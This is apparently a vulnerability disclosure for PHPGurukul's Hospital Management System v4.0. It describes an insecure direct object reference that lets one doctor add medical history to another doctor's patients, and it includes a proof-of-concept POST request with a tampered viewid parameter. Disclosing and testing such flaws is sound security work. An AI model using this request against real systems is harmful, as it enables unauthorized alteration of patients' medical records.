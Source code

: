 # Exploit Title: Hospital Management System v4.0 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://phpgurukul.com/hospital-management-system-in-php
## Tested on: Debian Linux, Apache, Mysql
## Vendor: Phpgurukul
## Version: v4.0
## Exploit Description:
## Hospital Management System v4.0 suffers from IDOR - Broken Access Control Vulnerability allowing attacker doctor to add medical history for patient who is managed by other doctor(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /hospital/hms/doctor/view-patient.php?viewid=2(CHANGE HERE) HTTP/1.1
...

bp=90&bs=6.9&weight=90&temp=37&pres=AAAAA&submit=
```